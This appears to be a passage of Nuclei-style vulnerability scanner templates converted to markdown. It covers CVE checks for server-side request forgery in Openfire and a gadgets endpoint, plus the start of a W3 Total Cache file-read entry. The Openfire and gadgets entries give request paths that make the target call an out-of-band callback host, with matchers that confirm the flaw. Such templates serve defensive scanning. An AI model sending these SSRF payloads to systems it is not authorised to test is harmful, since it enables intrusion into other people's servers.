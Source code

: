 - {{BaseURL}}/plugins/servlet/gadgets/makeRequest
  - url=https://{{Host}}:443@{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Ignite Realtime Openfire \<=4.4.2 - Server-Side Request Forgery

## Description

- Ignite Realtime Openfire through version 4.4.2 allows attackers to send arbitrary HTTP GET requests in FaviconServlet.java, resulting in server-side request forgery.
- severity - critical
- tags - cve,cve2019,ssrf,openfire,oast

## Requests

- Method - GET

### URL

- {{BaseURL}}/getFavicon?host=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# W3 Total Cache 0.9.2.6-0.9.3 - Unauthenticated File Read / Directory Traversal

## Description

- WordPress plugin W3 Total Cache before version 0.9.4 allows remote attackers to read arbitrary files via the SubscribeURL field in SubscriptionConfirmation JSON data via pub/sns.php.

- severity - high
- tags - cve,cve2019,wordpress,wp-plugin,ssrf,packetstorm
